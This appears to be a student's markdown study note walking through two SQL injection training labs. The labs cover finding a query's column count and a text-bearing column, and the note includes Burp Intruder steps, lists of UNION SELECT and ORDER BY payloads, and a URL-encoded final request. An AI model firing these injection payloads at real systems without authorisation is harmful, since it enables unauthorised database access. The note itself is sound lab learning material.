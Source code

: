 ```yaml
---
sticker: emoji//1f9ea
---
```

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![](Pasted image 20241030154632.png)

To begin with this lab let's take a look at the page:

![](Pasted image 20241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![](Pasted image 20241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:


![](Pasted image 20241030155422.png)

![](Pasted image 20241030155739.png)

Let's launch the attack:

![](Pasted image 20241030155927.png)
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![](Pasted image 20241030160033.png)

![](Pasted image 20241030160134.png)


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![](Pasted image 20241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![](Pasted image 20241030162009.png)

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![](Pasted image 20241030162905.png)

## SENDING THE REQUEST

![](Pasted image 20241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![](Pasted image 20241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![](Pasted image 20241030173318.png)

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![](Pasted image 20241030173523.png)


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
